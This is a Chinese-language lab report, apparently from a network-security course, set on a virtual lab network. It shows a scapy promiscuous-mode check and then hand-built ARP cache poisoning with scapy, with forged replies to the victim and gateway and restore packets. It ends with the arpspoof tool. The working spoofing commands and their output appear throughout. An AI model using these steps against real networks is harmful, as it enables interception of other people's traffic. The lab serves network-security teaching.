 ## 

## 实验环境

<img src="images/image-20201009143911998.png" alt="image-20201009143911998" style="zoom: 80%;" />

如图所示网络中的节点基本信息如下：

* 攻击者主机
  * 08:00:27:e0:ca:33 / eth0
  * 192.168.1.98
* 网关
  * 08:00:27:92:fb:b7 / enp0s8
  * 192.168.1.1
* 受害者主机
  * 08:00:27:79:3c:11 / eth0
  * 192.168.1.15

![网络配置](images/%E7%BD%91%E7%BB%9C%E9%85%8D%E7%BD%AE.png)

## 试验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

## 试验一

### 在受害者主机未开启混杂模式的情况下试验

```
# 在受害者主机
kate@bogon:~$ ip  link  show eth0
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
    link/ether 08:00:27:79:3c:11 brd ff:ff:ff:ff:ff:ff
    
# 在攻击者主机开启scapy并执行下述代码
kate@bogon:~$ sudo scapy
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
WARNING: No route found for IPv6 destination :: (no default route?)
      .SYPACCCSASYY  
P /SCS/CCS        ACS | Welcome to Scapy
       /A          AC | Version 2.4.3
     A/PS       /SPPS |
        YP        (SC | https://github.com/secdev/scapy
       SPS/A.      SC |
   Y/PACC          PP | Have fun!
    PY*AYC        CAA
         YYCY//SCYP   using IPython 7.16.1
>>> pkt = promiscping("192.168.1.15")                                      
Begin emission:
Finished sending 1 packets.
```

### 在受害者主机开启混杂模式

```

kate@bogon:~$ sudo ip link set eth0 promisc on
[sudo] kate 的密码：
kate@bogon:~$ ip  link  show eth0
2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
    link/ether 08:00:27:79:3c:11 brd ff:ff:ff:ff:ff:ff
kate@bogon:~$ 
```

![image-20201009094051431](images/%E5%AE%9E%E9%AA%8C%E4%B8%80%E7%BB%93%E6%9E%9C.png)

### 在受害者主机开启混杂模式之后再次试验

```
kate@bogon:~$ sudo scapy
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
WARNING: No route found for IPv6 destination :: (no default route?)
      .SYPACCCSASYY  
P /SCS/CCS        ACS | Welcome to Scapy
       /A          AC | Version 2.4.3
     A/PS       /SPPS |
        YP        (SC | https://github.com/secdev/scapy
       SPS/A.      SC |
   Y/PACC          PP | Have fun!
    PY*AYC        CAA
         YYCY//SCYP   using IPython 7.16.1
>>> pkt = promiscping("192.168.1.15")                                      
Begin emission:
Finished sending 1 packets.
```

**差异**:在受害者主机开启混杂模式之后，攻击者主机在执行`pkt = promiscping("192.168.1.15")`时可以收到一个answer的数据包，而当受害者主机没有开启混杂模式时，攻击者主机没有收到回复数据包。

补充：混杂模式下受害者主机对于所有的数据都会接受，而非混杂模式下受害者主机只接受发往自己的MAC地址的数据。

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

### 毒化受害者主机的ARP缓存

* 实验过程

```
>>> arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.1.1")        
>>> arpbroadcast.show()                                                                
###[ Ethernet ]### 
  dst= ff:ff:ff:ff:ff:ff
  src= 08:00:27:e0:ca:33
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 08:00:27:e0:ca:33
     psrc= 192.168.1.98
     hwdst= 00:00:00:00:00:00
     pdst= 192.168.1.1

>>> recved = srp(arpbroadcast, timeout=2)                                    
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
>>> gw_mac = recved[0][0][1].hwsrc                                           
>>> gw_mac                                                                   
'08:00:27:92:fb:b7'
>>> arpspoofed=Ether()/ARP(op=2, psrc="192.168.1.1", pdst="192.168.1.15", hwd
...: st="08:00:27:e0:ca:33")                                                 
>>> sendp(arpspoofed)                                                        
.
Sent 1 packets.
>>> 
```

* 试验结果

![image-20201009115459648](images/image-20201009115459648.png)

### 恢复受害者主机的 ARP 缓存记录

* 过程

```
>>> restorepkt1=Ether()/ARP(op=2, psrc="192.168.1.1", pdst="192.168.1.15", hwsrc="08:0
...: 0:27:92:fb:b7",hwdst="08:00:27:79:3c:11")                                        
>>> restorepkt1.show()                                                                
###[ Ethernet ]### 
  dst= 08:00:27:79:3c:11
  src= 08:00:27:e0:ca:33
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= is-at
     hwsrc= 08:00:27:92:fb:b7
     psrc= 192.168.1.1
     hwdst= 08:00:27:79:3c:11
     pdst= 192.168.1.15

>>> sendp(restorepkt1,count=100,inter=0.2)                                            
.......................................................................
```

结果：

```
root@bogon:/home/kate# ip neigh show
192.168.1.1 dev eth0 lladdr 08:00:27:92:fb:b7 REACHABLE
192.168.1.98 dev eth0 lladdr 08:00:27:e0:ca:33 STALE
```

![image-20201009121218888](images/image-20201009121218888.png)

### 伪装受害者给网关发送 ARP 响应

```
>>> restorepkt2=Ether()/ARP(op=2, psrc="192.168.1.15", pdst="192.168.1.1", hwsrc="08:0
...: 0:27:79:3c:11",hwdst="08:00:27:92:fb:b7") 

>>> restorepkt2.show()                                                                
###[ Ethernet ]### 
  dst= 08:00:27:92:fb:b7
  src= 08:00:27:e0:ca:33
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= is-at
     hwsrc= 08:00:27:79:3c:11
     psrc= 192.168.1.15
     hwdst= 08:00:27:92:fb:b7
     pdst= 192.168.1.1 

>>> sendp(restorepkt2,count=100,inter=0.2)                                            
....................................................................................................
Sent 100 packets.
```

## 实验三（可选）使用自动化工具完成 ARP 投毒劫持实验

* 下载工具

```
apt-get install dsniff ssldump
root@bogon:/home/kate# arpspoof
Version: 2.4
Usage: arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host
root@bogon:/home/kate# 

```

* 使用arpspoof工具之前受害者主机的ARP缓存状况：

![image-20201009133831041](images/image-20201009133831041.png)

* 使用`arpspoof -i eth0 -t 192.168.1.15 192.168.1.1`攻击之后受害者主机的ARP缓存状态

![image-20201009134034014](images/image-20201009134034014.png)
